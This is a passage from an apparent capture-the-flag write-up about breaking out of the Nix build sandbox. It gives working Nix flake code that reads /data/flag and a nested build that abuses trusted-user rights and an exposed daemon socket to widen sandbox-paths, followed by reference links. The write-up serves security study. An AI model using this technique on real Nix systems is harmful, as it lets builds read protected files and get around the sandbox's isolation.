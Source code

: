 ### Building a Flake Inside a Derivation

With both of these ideas in mind, I started with the first one and built
a small flake:

```nix
{
  inputs = {
    nixpkgs.url = "github:nixos/nixpkgs?ref=6e2f00c83911461438301db0dba5281197fe4b3a"; # nixos-unstable
  };

  outputs = {
    self,
    nixpkgs,
  }: let
    system = "x86_64-linux";
    pkgs = import nixpkgs {
      inherit system;
    };
  in {
    packages.${system}.exploit-inner = pkgs.stdenv.mkDerivation {
      name = "exploit-inner";

      # Just run installPhase and skip everything else
      phases = ["installPhase"];

      installPhase = ''
        mkdir $out
        cat /data/flag
        cp /data/flag $out
      '';
    };
  };
}
```

This flake gets the flag from `/data/flag` and places it in the derivation
output. It also prints it to stdout, which should allow us to get the
flag as well if it works.

As we are now a trusted user, we are able to pass certain options to the daemon,
one of which is `sandbox-paths`, which allows us to specify which paths
will be exposed inside a sandbox.
With this in mind, we simply build this inner flake from inside the other one
we already had by changing the `installPhase`:

```nix
{
  # ...
  packages.${system}.exploit = pkgs.stdenv.mkDerivation {
    # ...
    installPhase = ''
      # Use the exposed socket inside the sandbox
      export NIX_REMOTE=unix:///tmp/daemon
      # Build the flake
      nix --extra-experimental-features "nix-command flakes" \
        build \
        $src#exploit-inner \
        --option sandbox-paths /data

      # Copy flag to output
      mkdir $out
      cp result/flag $out
    '';
  };
```

[Mastodon post]: https://hachyderm.io/@leftpaddotpy/112103523507978883
[daemon-snippet]: https://github.com/NixOS/nix/blob/2.13.6/src/nix/daemon.cc#L244-L252
[breaks RPM builds]: https://github.com/NixOS/nix/commit/98968fbb63a1a049b2439bfc2a7d53e5b51471e3
[daemon-log-message]: https://github.com/NixOS/nix/blob/2.13.6/src/nix/daemon.cc#L215-L217
[nix-pe-issue]: https://github.com/NixOS/nix/issues/9649#issuecomment-1868001568
[daemon-ops]: https://github.com/NixOS/nix/blob/2.13.6/src/libstore/daemon.cc#L269
[@nrab@hachyderm.io]: https://hachyderm.io/@nrab
[diff-hook-manual]: https://github.com/NixOS/nix/blob/2.13.6/doc/manual/src/advanced-topics/diff-hook.md
[setuid-wrappers]: https://discourse.nixos.org/t/how-to-create-setuid-wrapper-for-installed-program/2590/2
[su-output]: https://github.com/NixOS/nixpkgs/blob/6e2f00c83911461438301db0dba5281197fe4b3a/pkgs/os-specific/linux/shadow/default.nix#L88-L90
[setuid-shell]: https://unix.stackexchange.com/questions/364/allow-setuid-on-shell-scripts
[remove-trusted-users]: https://github.com/diogotcorreia/dotfiles/commit/e8cd4c0676eb8cc6ce7c7e814846831568adb735
[@leftpaddotpy]: https://hachyderm.io/@leftpaddotpy